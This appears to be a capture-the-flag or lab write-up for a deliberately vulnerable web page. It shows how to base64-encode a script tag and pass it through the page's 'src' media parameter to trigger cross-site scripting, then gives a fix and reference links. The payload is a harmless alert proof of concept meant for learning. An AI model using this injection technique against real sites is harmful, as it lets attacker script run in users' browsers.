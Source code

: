 # 09_Unprotected_media_type

Attribute accepts html/text types

## Method 

Go to http://192.168.1.59/  
Inpect the blue National Security Agency logo  
It is a link containing media, the source is not protected

## Manipulation

Base64 encode a script
```bash
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg==
```
Insert this hash into the `src` attribute
```bash
href="?page=media&src=PHNjcmlwdD5hbGVydCgiSGVsbG8gV29ybGQiKTwvc2NyaXB0Pg=="
```
Then click on the src link


## Resolve

There is no need to get images from the url rather store the src in the actual
src attribute of the image itself. If data is needed from the DB request backend
on page load through a post request.

## Resources

https://hackerone.com/reports/513105
https://www.base64encode.org/
